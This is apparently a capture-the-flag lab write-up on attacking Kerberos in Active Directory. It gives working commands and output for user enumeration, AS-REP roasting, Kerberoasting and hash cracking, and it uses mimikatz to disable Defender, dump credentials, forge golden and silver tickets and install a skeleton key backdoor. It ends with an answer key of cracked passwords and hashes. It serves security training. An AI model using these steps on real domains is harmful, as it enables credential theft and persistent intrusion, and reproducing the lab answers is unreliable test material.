

# Attacking Kerberos

- Machine IP: `10.10.22.147`
- OS		: `Windows`
- Exploit   : `Expoloiting Kerberos`

---

## PREREQUISITES

- TGT (**_Ticket Granting Ticket_**) --> A ticket used to obtain access ticket from the TGS for accessing resources from the domain
- KDC (**_Key Distribution Centre_**) --> A service for issuing TGT's and service tickets. KDC authenticates users, lookup their permissions and gets them a ticket for accessing. Simply provides tickets on request. KDC have two different agents; AS (*Authentication Server*) and TGT (*Ticket Granting Ticket*)
- AS (**_Authentication Service_**) --> Issues the TGT which is to be used by the TGS in the domain. Which is used to request access to other machines and services in the domain
- TGS (**_Ticket Granting Service_**) --> Gets the TGT and return a ticker to a machine on the domain
- SPN (**_Service Principal Name_**) --> Identifier given to a service instance, which is associated with the domain service account
- KDC LT Key (**_KDC Long Term Secret Key_**) --> KDC key is based on the KRBTGT service account, used to encrypt TGT and sign PAC
- Client LT Key(**_Client Long term secret Key_**) --> Based on the computer or service account, used to check encrypted timestamp and encrypts the session key
- Service LT Key (**_Service Long term secret key_**) --> Based on the service account, used to encrypt the service portion of the service ticket and sign the PAC
- **_Session Key_** --> Issued by KDC when TGT is issued. The User will provide the session key with the TGT to the KDC to obtain service ticket
- PAC (**_Privilege Attribute Certificate_**) --> Holds the relavant information about the user. PAC is sent along with  the TGT to the KDC which is signed with target LT key and KDC LT key which will validate the user

## Approach for Active Directory machine in CTF's

- General Approach for AD machines

<p align="center">
  
</p>


### Kerberos Authentication

- Authentication process of kerberos in Active Directory

<p align="center">
  
</p>

### Kerberos Authentication Explained

- Authentication process explained

<p align="center">
  
</p>

## Attacking Kerberos Authentication

### User Enumeration with kerbrute

- Add the machine IP to the hosts file `echo 10.10.22.147  CONTROLLER.local | sudo tee -a /etc/hosts`
- Download the userlist provided by the [room](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt)
- Test for available users in the domain

```bash
# -d = domain name
# --dc = domain controller IP

┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ /opt/binaries/kerbrute userenum -d controller.local --dc 10.10.22.147 User.txt  -o kerbute.out

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 05/05/21 - Ronnie Flathers @ropnop

2021/05/05 14:27:12 >  Using KDC(s):
2021/05/05 14:27:12 >   10.10.22.147:88

2021/05/05 14:27:13 >  [+] VALID USERNAME:       admin1@controller.local
2021/05/05 14:27:13 >  [+] VALID USERNAME:       admin2@controller.local
2021/05/05 14:27:13 >  [+] VALID USERNAME:       administrator@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       httpservice@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       machine2@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       machine1@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       sqlservice@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       user1@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       user2@controller.local
2021/05/05 14:27:15 >  [+] VALID USERNAME:       user3@controller.local
2021/05/05 14:27:15 >  Done! Tested 100 usernames (10 valid) in 2.262 seconds
```

- 10 valid users from the domain is enumerated

### Enumeration with rubeus.exe

- To perform attacks using `rubeus.exe` you need access to the windows machine
- Login to the spawned machine and perform attacks using rubeus

```bash
# harverst tickets in the machine in a certain interval
rubeus.exe harvest /interval:10

# bruteforce a known password with all the available users and obtain the TGT
rubeus.exe brute /password:Password1 /noticket
```

### AS-REP Roasting

- If the user has the `Kerberos Pre-authentication` disabled, AS_REP Roasting dumps the `krbasrep5` hashes of the user account

---
> If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline
---
> Cracking the ticket provides the password for the user, since the ticket is encrypted with users password
---

#### AS_REPRoasting With impackets

- Identify valid users with `kerbrute`
- Get users TGT with `GetNPUsers.py`

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ GetNPUsers.py controller.local/ -no-pass -usersfile User.txt -ouputfile impackets-npusers.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[..snip..]
[-] User admin1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[..snip..]
[-] User user1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User user2 doesn't have UF_DONT_REQUIRE_PREAUTH set
```

#### AS_REPRoasting With rubeus

```powershell
rubues.exe asreproast
```

#### Cracking the hash (AS_REP Roasting)

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]                                                                                              
└─$ hashcat -m 18200 impackets-npusers.out Pass.txt 

[..snip..]
$krb5asrep$23$user3@CONTROLLER.LOCAL:266ae...2428f:Password3
$krb5asrep$23$admin2@CONTROLLER.LOCAL:d3197...426cc:P@$$W0rd2
[..snip..]
```

### Kerberoastable Users

> Need to find kerberoastable service accounts
---
> If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit
---
> If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts, Password reuse is one among the many vulnerability that is common in any network
---

#### Kerberoasting With impackets

```bash
# isntall impackets (https://github.com/SecureAuthCorp/impacket)
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ GetUserSPNs.py -dc-ip 10.10.129.194 controller.local/Machine1:Password1 -request -outputfile impackets-userspns.out

```

#### Kerberoasting With Bloodhound

- Kerberosting, a popular attack in the kerberos protocol where the user requests a service ticket for any ticket with a registered SPN which can be cracked to obtain the password of the service account
- If a service has a registered SPN, then its kerberostable
- Bloodhound is highly suggested to find accounts that are kerberostable

```bash
# bloodhound.py
bloodhound-python -u Machine1 -p Password1 -d controller.local -ns 10.10.22.147 -c all
# many json files will be loaded
# neo4j installation
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4.2' | sudo tee -a /etc/apt/sources.list.d/neo4j.list
sudo apt-get update
apt list -a neo4j
sudo apt-get install neo4j=1:4.2.3
# start the neo4j service
sudo neo4j console
# once you start the neo4j service
# http://localhost:7474, provide the username and passowrd neo4j:neo4j
# set your new password ---> (1)

# download bloodhound (https://github.com/BloodHoundAD/BloodHound/releases/tag/4.0.2)
# start the bloodhound
./Bloodhound
# login credentials neo4j:{password you set in (1)}
# now drag and drop the json files to the bloodhound instance
```

- Once the json files loaded into the bloodhound, search for the user machine1


- Select the user and mark as owned (since we have the user's password)


- Now in the quiries section, find the kerberoastable account and other requirements 
- We will find all the kerberoastable accounts


- Also find the kerberoastable users wtith high privs


#### Kerberoasting With Rubeus.exe

- Access to the machine is required,

```powershell
C:\Users\Administrator\Downloads> Rubeus.exe kerberoast
```

#### Cracking the hash (Kerbroasting)

- With the help of hashcat and the curated [wordlist](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt) provided in the room, we can crack the hash

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]                                                                                              
└─$ hashcat -m 13100 impackets-userspns.out Pass.txt

[..snip..]
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$controller.local/HTTPService*$4ecd...1650eb49cd26:Summer2020
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$controller.local/SQLService*$b79c65...d039f8:MYPassword123#
```

### Pass the Hash

- After gaining an administrator level access in the target machine
- Disable the antivirus in the machine

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

- Run the [mimikatz.exe](https://github.com/gentilkiwi/mimikatz)
- And check the running permission

```powershell
# run mimikatz.exe
.\mimikatz.exe

# check privs(running as admin)
mimikatz # privilege::debug 
Privilege '20' OK 

# dump all tickets (save the tickets in the current working folder)
mimikatz # sekurlsa::tickets /export
Authentication Id : 0 ; 407400 (00000000:00063768)
[..snip..]
# the tickets will be exported to the directory where mikiatz is currently running

# pass the ticket to the current session
kerberos::ptt {ticket-name}

# see the available / loaded tickets in the machine with the command
C:\Users\Administrator\Downloads> klist
```

### Golden / Silver Ticket Attacks

- Silver ticket has access only to the specific service
- Golden ticket has complete access over the kerberos service

```powershell
# run mimikatz
.\mimikatz.exe

# dump the krbtgt hash for golden ticket attack
mimikatz # lsadump::lsa /inject /name:krbtgt                       
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
RID  : 000001f6 (502)                                        
User :krbtgt                                                  

 *Primary                                                       
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :                                                   
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6
[..snip..]

# dump the hash for a specific service for silver ticket attack
mimikatz # lsadump::lsa /inject /name:{service-name}
mimikatz # lsadump::lsa /inject /name:sqlservice
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)
User : sqlservice

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0
[..snip..]

```

- Creating a ticket for usage

```powershell
# creating a golden ticket
mimikatz # kerberos::golden /user:Administrator /domain:{domain} /sid:{user-sid(optional)} /krbtgt: {hash of krbtgt} /id:{user-id(optional)}
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /krbtgt:72cd714611b64cd4d5550cd2759db3f6 
# a ticket will be saved inthe current directory

# creating a silver ticket
mimikatz # kerberos::golden /user:Administrator /domain:{domain} /sid:{user-sid(optional)} /krbtgt: {hash of the service} /id:{user-id(optional)}
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a 
```

- load the genereated ticket to the current session

```powershell
mimikatz # misc::cmd
```

### Backddor with mimikatz

- Open up the mimikatz, implement `Skeleton key`

```powershell
# start up mimikatz
.\mimikatz.exe

# install skeleton key
misc::skeleton
```

- After installing the skeleton key, you can access the whole forest

```bash
# access the admin folder in the domain controller
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz

# access the specific share in the domain controller 
dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

### Answers

#### Introduction

- What does TGT stand for?
`Ticket Granting Ticket`

- What does SPN stand for?
`Service Principal Name`

- What does PAC stand for?
`Privilege Attribure Certificate`

- What two services make up the KDC?
`AS, TGS`

#### Enumeration w/ kerbrute

- How many total users do we enumerate?
`10`

- What is the SQL service account name?
`sqlservice`

- What is the second "machine" account name?
`machine2`

- What is the third "user" account name?
`user3`

#### Harvesting & Bruteforcing w/ Rubeus

- Which domain admin do we get a ticket for when harvesting tickets?
`Administrator`

- Which domain controller do we get a ticket for when harvesting tickets?
`CONTROLLER-1`

#### Kerberoasting w/ Rubeus & Impacket

- What is the HTTPService Password?
`Summer2020`

- What is the SQLService Password?
`MYPassword123#`

#### AS-REP Roasting w/ Rubeus

- What hash type does AS-REP Roasting use?
`Kerberos 5 AS-REP etype 23` # hashcat --example-hashes | grep -a2 "krb5asrep"

- Which User is vulnerable to AS-REP Roasting?
`user3`

- What is the User's Password?
`Password3`

- Which Admin is vulnerable to AS-REP Roasting?
`admin2`

- What is the Admin's Password?
`P@$$W0rd2`

#### Golden/Silver Ticket Attacks w/ mimikatz

- What is the SQLService NTLM Hash?
`cd40c9ed96265531b21fc5b1dafcfb0a`

- What is the Administrator NTLM Hash?
`2777b7fec870e04dda00cd7260f7bee6`
